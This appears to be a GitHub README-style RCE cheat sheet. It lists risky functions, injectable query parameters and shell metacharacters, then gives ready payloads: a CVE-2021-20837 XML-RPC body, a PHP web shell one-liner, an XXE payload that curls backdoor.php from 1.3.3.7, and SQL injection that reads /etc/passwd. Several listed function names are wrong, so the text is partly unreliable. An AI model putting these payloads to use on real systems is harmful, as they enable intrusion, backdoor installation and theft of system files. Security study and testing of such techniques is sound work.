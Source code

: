 # RCE-reserch
Article about RCE vulnerability
RCE (Remote Code Execution) vulnerability is the possibility of executing malicious code or controlling and executing code remotely. This vulnerability is related to a security failure in a software or system. By using RCE, an attacker can gain complete control over the victim's system and perform various operations, obtain all kinds of sensitive information, and in some cases, target other attacks on other components and related networks.
System functions can be the main cause of RCE vulnerability. System functions are functions that run at the operating system level and allow a software program to communicate with system-dependent kernel parts.

If these functions are used unprotected and improperly, they allow attackers to execute their malicious code at the system level and obtain the execution of command line commands or perform other malicious activities. In other words, these are entry points for RCE attacks.

Some well-known functions that can create RCE risk potential include:

    system()
    execute()
    evaluate()
    passthru()
    shell_exec()
    open()

Parameters that may have an rce vulnerability

    ?cmd=
    ?exec=
    ?command=
    ?execute=
    ?ping=
    ?query=
    ?jump=
    ?code=
    ?reg=
    ?do=
    ?func=
    ?arg=
    ?option=
    ?load=
    ?process=
    ?step=
    ?read=
    ?function=
    ?req=
    ?feature=
    ?exe=
    ?module=
    ?payload=
    ?run=
    ?print=

vulnrability 


characters to find rce

    $()
    ; or ;;
    & or &&
    | or ||
    $ or $$
    `payload` -> `cat /etc/passwd`

xml-rpc to rce

CVE-2021-20837 

    <?xml version="1.0" encoding="UTF-8"?>
    <methodCall> <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
            #{base64_cmd}
            </base64>
          </value>
        </param>
      </params>
    </methodCall>


File upload to RCE

    <?php echo shell_exec($_GET['e'].' 2>&1'); ?>

XXE to RCE 

    <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
     <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">
     ]>
     <root>
    <name>Joe</name>
    <tel>ufgh</tel>
    <email>START_&file;_END</email>
    <password>kjh</password>
    </root>

SQLI to RCE

    UNION SELECT load_file(' /etc/passwd ')    

OOB(out of band)

    Unlike in-band attacks that take place in the same main channel between the service and the user, OOB attacks take place separately and outside the main           channel. More precisely, in OOB attacks, the attacker communicates with the server through a separate channel (e.g. DNS) and transmits his commands
